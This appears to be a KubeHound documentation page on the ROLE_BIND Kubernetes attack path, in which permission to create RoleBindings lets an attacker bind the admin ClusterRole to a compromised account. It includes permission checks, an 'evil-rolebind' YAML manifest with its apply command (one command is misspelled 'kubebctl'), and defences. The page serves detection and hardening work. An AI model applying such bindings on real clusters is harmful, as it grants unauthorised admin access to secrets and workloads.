 ```yaml
---
title: ROLE_BIND
---
```


<!--
id: ROLE_BIND
name: "Create role binding"
mitreAttackTechnique: T1078 - Valid Accounts
mitreAttackTactic: TA0004 - Privilege Escalation
-->


# ROLE_BIND

A role that grants permission to create or modify `(Cluster)RoleBindings` can allow an attacker to escalate privileges on a compromised user.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [PermissionSet](../entities/permissionset.md)  | [PermissionSet](../entities/permissionset.md) | [Valid Accounts, T1078](https://attack.mitre.org/techniques/T1078/) |

## Details

An attacker with sufficient permission can create a `RoleBinding` with the default existing admin `ClusterRole` and bind it to a compromised user. By creating this `RoleBinding`, the compromised user becomes highly privileged, and can execute privileged operations in the cluster (reading secrets, creating pods, etc.).

## Prerequisites

Ability to interact with the K8s API with a role allowing modify or create access to `(Cluster)RoleBindings`.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/ROLE_BIND.yaml).

## Checks

Simply ask kubectl:

```bash
kubectl auth can-i create rolebinding
kubectl auth can-i bind role
```

## Exploitation

Create the `(Cluster)RoleBinding` definition as below:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: evil-rolebind
  namespace: default
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: admin
subjects:
  - kind: ServiceAccount
    name: <compromised user>
    namespace: default
```

Create the binding via kubectl:

```bash
kubebctl apply -f evil-rolebind-spec.yaml
```

## Defences

### Monitoring

+ Monitor anomalous access to the K8s authorization API including creating privileged `(Cluster)RoleBinding` from with a pod, unusual `User-Agent` headers and other outliers.

### Implement least privilege access

Creating `(Cluster)RoleBinding` is a very powerful privilege and should not be required by the majority of users. Use an automated tool such a KubeHound to search for any risky permissions and users in the cluster and look to eliminate them.

## Calculation

+ [RoleBind](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/role_bind.go)
+ [RoleBindNamespace](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/role_bind_namespace.go)

## References:

+ [Official Kubernetes Documentation:Using RBAC Authorization](https://kubernetes.io/docs/reference/access-authn-authz/rbac/#rolebinding-and-clusterrolebinding)
+ [Securing Kubernetes Clusters by Eliminating Risky Permissions](https://www.cyberark.com/resources/threat-research-blog/securing-kubernetes-clusters-by-eliminating-risky-permissions)
+ [Getting into a bind with Kubernetes](https://raesene.github.io/blog/2021/01/16/Getting-Into-A-Bind-with-Kubernetes/)
+ [Official Kubernetes Documentation: Bind verb](https://kubernetes.io/docs/concepts/security/rbac-good-practices/#bind-verb)
